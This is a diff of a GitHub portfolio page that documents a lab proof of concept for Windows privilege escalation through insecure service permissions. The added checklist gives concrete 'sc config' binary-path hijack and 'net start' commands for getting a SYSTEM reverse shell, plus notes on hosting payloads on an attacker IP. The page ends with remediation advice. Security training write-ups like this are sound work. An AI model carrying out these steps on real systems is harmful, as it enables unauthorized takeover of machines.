

Before and after one commit to Tharisky/Portfolio, a Markdown page: PrivEsc/Windows/Service 2 - Insecure Service permissions.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/PrivEsc/Windows/Service 2 - Insecure Service permissions.md
+++ b/PrivEsc/Windows/Service 2 - Insecure Service permissions.md
@@ -75,6 +75,54 @@ This PoC demonstrates how a low-privileged user can exploit the "Insecure Servic
 
 ---
 
+
+
+
+
+
+
+
+
+
+Below is a concise summary of the steps taken across all Proof of Concept (PoC) reports for the vulnerabilities ("Insecure Service Executables," "Insecure Autoruns," and "Insecure Service Permissions"). The steps are presented as a checklist that can be used to replicate the privilege escalation attacks on a Windows machine. The checklist is streamlined for clarity and focuses on the key actions required for each method.
+
+---
+
+## Checklist: Replicating this Attack on a Windows Machine
+**Target**: Exploit weak service permissions (`daclsvc`) to modify its binary path and execute a malicious binary.
+
+- [ ] Establish a reverse shell to the attacker machine (listener already set up).
+- [ ] Query the service to confirm it runs with SYSTEM privileges:
+  `sc qc daclsvc`
+- [ ] Check the user’s permissions on the service using `accesschk`:
+  `C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`
+- [ ] Modify the service’s binary path to point to the malicious file `esc.exe`:
+  `sc config daclsvc binpath= "\"C:\users\user\esc.exe\""`
+- [ ] Start the service to execute the malicious binary and gain a reverse shell:
+  `net start daclsvc`
+- [ ] (Alternative) Modify the binary path to point to `malicious.exe` (e.g., to add the user to the admin group):
+  `sc config daclsvc binpath= "C:\Users\user\malicious.exe"`
+  Then start the service: `net start daclsvc`
+
+---
+
+### Notes
+- Ensure the malicious files (`esc.exe`, `x.exe`, `malicious.exe`) are hosted on an accessible server (e.g., `http://10.4.106.235/`).
+- Verify the listener port (e.g., `2294`) matches the configuration of the malicious binary.
+- The `accesschk.exe` tool must be available on the target system (e.g., at `C:\PrivEsc\accesschk.exe`).
+- Admin login (for Method 2) or service restart (for Methods 1 and 3) is required to trigger the exploit.
+
+
+
+
+
+
+
+
+
+
+
+
 ### Conclusion
 
 This PoC confirms that the "Insecure Service Permissions" vulnerability in the `daclsvc` service allows a low-privileged user to escalate privileges to `SYSTEM` level. By exploiting the `SERVICE_CHANGE_CONFIG` permission, an attacker can modify the service's binary path to execute arbitrary code with elevated privileges, posing a significant risk to system security. Immediate remediation is recommended, such as restricting service permissions to prevent unauthorized configuration changes and ensuring services run with the least privilege necessary.
```
